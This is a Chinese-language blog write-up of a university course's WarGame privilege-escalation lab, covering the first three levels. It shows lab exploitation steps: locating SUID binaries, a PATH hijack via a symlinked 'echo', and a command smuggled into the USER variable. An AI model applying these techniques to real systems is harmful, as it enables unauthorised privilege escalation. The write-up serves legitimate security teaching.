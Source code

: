 ```yaml
---
title: WarGame闯关笔记
date: 2021/12/17 16:53:35
tags: 
- Cyber Security
categories:
- CS
description: NJU陈健老师网络攻防实战课程作业WarGame
cover: /img/Science.jpg
---
```


# WarGame简介

[虚拟机及题目链接](https://box.nju.edu.cn/d/10484f123139461d9412/)

WarGame提供的虚拟机镜像是一个基于 Linux 的漏洞挖掘的练习闯关平台。闯关者需要从中找到漏洞并突破权限。相信在完成该平台的练习后，你将对漏洞挖掘的原理有一个较为透彻的理解，并掌握漏洞挖掘的基本方法。

该平台的每一个关卡对应一个名为 levelXX 的账号，密码与账号名相同。在完成每一关 的 题 目 之 前 ， 你 需 要 用 对 应 的 账 号 登 录 系 统 。 每 个 关 卡 的 题 目 对 应 的 文 件 都 放 在 /home/flagXX 目录中。例如，第一关的账号名是 level01，密码也是 level01，如果这个关卡 有需要攻击的包含漏洞的程序，那么相应的程序就放在/home/flag01 目录中。每个关卡的内 容介绍和相关程序的源代码可以在本实验讲义后面对应的 Level 小节中获得。 
/home/flagXX 目录中的程序具备 SUID 权限。例如在关卡 level01 中，用 level01 账号登 录进系统，然后执行/home/flag01/flag01，程序将以 flag01 的身份运行。当你利用该程序的 漏洞提升自己的权限后，你的身份就将变为 flag01。提权成功后，你需要执行/bin/getflagXX 程序（对本例来说，就是执行/bin/getflag01），如果你确实是以 flagXX 的身份运行该程序， 就将获得提示：“Congratulation! The flag is xxx-xxx”，否则获得的提示为：“Wrong, You are in  a  non-flag  account”。每个关卡的最终目的就是利用程序漏洞提升自己的权限，然后想办 法执行/bin/getflagXX 程序并获得 flag。 

# Level00

查找具有SUID权限的程序，找到 /bin/.../flag00: find / -perm /4000

PS：老师是不是发虚拟机之前调用了flag00，历史指令按两下就出现了flag00，不过这大概不能算是另一种做法吧~

![00](https://s2.loli.net/2021/12/17/8OpRzalEdNQXHcm.png)

# Level01

1.	在用户目录下创建符号链接echo, 链接到getflag: ln -s /bin/getflag01 ~/echo
2.	将自己的用户目录添加到环境变量中: export PATH=/home/level01/:$PATH
3.	执行flag01, 它会帮我们运行 /bin/getflag01

![01](https://s2.loli.net/2021/12/17/sV9kgcCtlev1Eox.png)

# Level02

1.	修改用户名, 使其闭合前一个语句并在后面执行getflag: export USER="name && /bin/getflag02 &&"
2.	执行flag02

![02](https://s2.loli.net/2021/12/17/eiB3xrV5taovC4M.png)
